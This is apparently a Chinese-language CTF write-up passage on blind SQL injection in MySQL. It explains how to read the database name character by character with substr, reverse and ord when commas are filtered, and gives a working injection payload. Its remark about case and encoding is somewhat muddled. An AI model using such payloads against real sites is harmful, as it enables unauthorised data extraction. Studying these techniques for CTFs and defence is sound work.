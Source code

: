 但是我们这里发现 我们无法通过 1 搜索到flag后然后查询

我们可以使用倒装输出看看 reverse

```cobol
SELECT substr((reverse(substr('flag' FROM 1)))FROM 4)
 
 
f
 
 
SELECT substr((reverse(substr('flag' FROM 2)))FROM 3)
 
l
 
 
 
SELECT substr((reverse(substr('flag' FROM 3)))FROM 2)
 
a
 
 
 
SELECT substr((reverse(substr('flag' FROM 4)))FROM 1)
 
g
```

实现了读取

这里我们就可以进行payload拼接

```lisp
a'or(ord(substr((reverse(substr((database())from(2))))from(8)))<>98)#
```

我们再来分析一下

```cobol
a'or(ord(substr((reverse(substr((database())from(1))))from(8)))<>1)#

内容其实是

a' or ord(substr(reverse(substr(database() from 1)) from 1))<>1
 
我们首先通过
 
substr(database() from 1) 来输出
 
但是这个时候是返回全部内容 假如database为admin
那么这个时候回显是admin
 
我们使用倒装
 
reverse(substr(database() from 1))
 
返回的是 nimda
 
这个时候我们访问最大的值这里是5
 
 
substr(reverse(substr(database() from 1)) from 5)
 
就返回了 a
 
我们就获取了第一个字符的内容
 
这里为什么要使用ord呢 因为ascii在mysql中 大小写的 编码是一样的 's'='S'
```